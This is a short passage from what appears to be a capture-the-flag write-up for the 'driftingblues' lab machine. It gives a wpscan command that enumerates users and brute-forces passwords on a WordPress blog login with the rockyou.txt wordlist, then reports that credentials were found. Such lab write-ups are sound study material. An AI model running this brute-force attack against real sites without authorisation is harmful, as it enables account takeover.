 ![alt img](images/7-4.png)

Interesting 

we are going to bruteforce the login page to find users and paaswords  with a popular wordlists known as the Rockyou.txt
```sh 
wpscan --url http://driftingblues.box/blog --detection-mode aggressive -e --passwords=/usr/share/wordlists/rockyou.txt

```
We found a user and a password
